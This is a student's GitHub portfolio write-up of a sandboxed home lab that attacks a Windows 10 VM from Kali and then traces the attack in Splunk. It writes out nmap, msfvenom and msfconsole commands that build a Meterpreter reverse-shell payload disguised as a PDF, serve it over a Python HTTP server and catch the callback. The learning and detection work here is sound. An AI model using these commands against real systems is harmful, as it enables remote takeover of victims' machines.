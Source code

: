  # MSF,Splunk and Reverse Shell Attack Demonstration

> MSF (Metsploit Framework) is an open-source tool that is used to create and run exploit code remotely onto target systems.

> Splunk is a big data platform that manages large volumes of data by searching for information within it and indexes it.

> A reverse shell attack is an attack where an attacker initiates a shell session on the target's comptuer and redirects the input and output so that the attacker can access it remoteley. From here, the attacker's opportunities are limitless as they can open ports to the target machine and allow for a complete takeover of the machine. 

##Overview
This project has two objectives; one is to demonstrate how hackers exploit ports and use MSF to carry out attacks such as the reverse shell attack, and the other is to view data from the target machine on Splunk and locate the cause of the attack. This will be done by creating two virtual machines, one running Kali Linux (the attacker machine) and the other running Windows 10 (the target machine). MSF will be used to create the payload on the Kali virtual machine `(VM)` and will be delivered to the Windows 10 VM using an .exe file, diguised as a .pdf. The exploit will then be executed and will create a shell window on the Kali machine, allowing for any command to be carried out using the CLI. Data and fields should then be visible on Splunk and would provide data to a security analyst to determine the cause of the attack.



## Purpose of a home lab
As a student who is aspiring to break into the cybersecurity field, I have learnt that hands-on experience is essential to be kept in the loop as the field is everchanging. A home lab allows for me to test out real-world problems, experiment and learn to understand how attacks occur in a safe, sandboxed environment. For this project, I will set up two virtual machines (one running Kali Linux and the other running Windows 10) and have one act as an attacker and the other as a target. I will try to gain access to the Windows virtual machine’s shell via a reverse shell attack. A reverse shell attack initiates a shell session and allows for the attacker to redirect the input and outputs of the shell so that it can be used by the attacker. The delivery method of this attack that I will use is an .exe file disguised as a .pdf.




## Steps followed
1.	First, I chose a hosted hypervisor. I chose Virtualbox because I was familiar with it and had previously used it.
2.	Next, I downloaded Kali Linux and the Windows 10 ISO from their respective websites and set them up on Virtualbox.
3.	I downloaded Sysmon and Splunk on the Windows 10 machine at this point as it still has a connection to the internet.
4.	Both virtual machines were then both configured to be part of their own internal network, meaning they could communicate with each other but did not have an active connection to the internet. Static IPs were set for each one.
5.	Creating infected file on Kali Linux VM using the terminal :

        a.	“nmap -A {Windows 10 VM IP} -Pn “ – scans for any open ports on the target machine
        
        b.	Returned that port 3389 was exposed
  
        c.	“msfvenom -p windows/x64/meterpreter_reverse_tcp lhost={Kali VM IP} lport=4444 -f exe -o Report.pdf.exe” – this command specifies the payload of the attack (reverse tcp), specifies the host of the attack, the port and the file and it’s format.
<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture1.png">
</div>


  	    d.	“msfconsole” -> “use exploit/multi/handler” -> “set payload windows/x64/meterpreter/reverse_tcp “ – sets the payload option
  	
        e.	“exploit” – starts the handler
  	
        f.	“python3 -m http.server 999” – allows for the Windows machine in the same network to access the infected file 


<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture2.png">
</div>

<br>
<br>

<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture3.png">
</div>

        g.	Disable Windows Defender and open the file on the Windows VM

  	    h.	Looking at the Kali machine should show that you are connected to the target and should allow you to execute commands on it 
 
<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture4.png">
</div>


7.	Access Splunk and create an index with the name ‘endpoint’
<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture5.png">
</div>
8.	Go to the search and reporting app on Splunk and type ‘index=”endpoint” {Kali IP Address}’ 

<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture6.png">
</div>
 
9.	Looking at the fields, we can see that the Kali Linux machine is accessing a port, which would be something of interest to investigate.

<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture7.png">
</div>
 
10.	Looking further into the event IDs, we can see that the issue comes from the Report.pdf.exe.
 
<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture8.png">
</div>

This was a simple demonstration of how exploits can be used to target exposed ports, how malware can take control of a victim’s computer and how tools like Splunk can be used to detect unusual events which can allow for the user to take action and solve the problem

